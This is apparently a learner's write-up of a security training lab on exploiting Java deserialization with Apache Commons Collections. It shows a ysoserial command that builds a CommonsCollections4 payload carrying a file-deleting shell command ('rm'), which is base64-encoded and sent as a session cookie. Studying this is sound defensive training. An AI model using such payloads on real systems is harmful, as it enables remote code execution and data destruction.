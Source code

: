 Title: Exploiting Java deserialization with Apache Commons
Level: PRACTITIONER
Desc:  This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.
To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter 

Hint: In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial. For example:
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'

# Theory:
`ysoserial`

One such tool for Java deserialization is "ysoserial". This lets you choose one of the provided gadget chains for a library that you think the target application is using, then pass in a command that you want to execute. It then creates an appropriate serialized object based on the selected chain. This still involves a certain amount of trial and error, but it is considerably less labor-intensive than constructing your own gadget chains manually. 



# Walkthrough:
I decoded cookie and I saw, that I have object reffering to the Java Commons Collections library.
<img width="1436" height="592" alt="image" src="https://github.com/user-attachments/assets/22e74c13-7fbb-44cd-be39-7b0ecd7c032a" />

I try to use YSOSERIAL tool to make exploit:
```
java \
  --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED \
  --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0

```

`base64 -w 0` to not to wrap lines.

Additional step here was to encode URL all charakters in Burp before sending request.





